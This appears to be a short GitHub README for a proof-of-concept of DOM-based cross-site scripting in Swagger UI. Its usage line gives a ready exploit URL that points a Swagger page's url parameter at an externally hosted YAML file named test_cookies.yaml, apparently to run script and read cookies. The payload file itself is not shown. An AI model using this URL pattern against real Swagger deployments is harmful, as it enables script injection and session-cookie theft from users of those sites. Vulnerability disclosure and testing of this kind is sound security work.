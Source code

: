 # Alharbe0.github.io
this is PoC for swagger DOM Xss :)

#usage
https://test.com/swagger_file/index.html?url=https://alharbe0.github.io/test_cookies.yaml
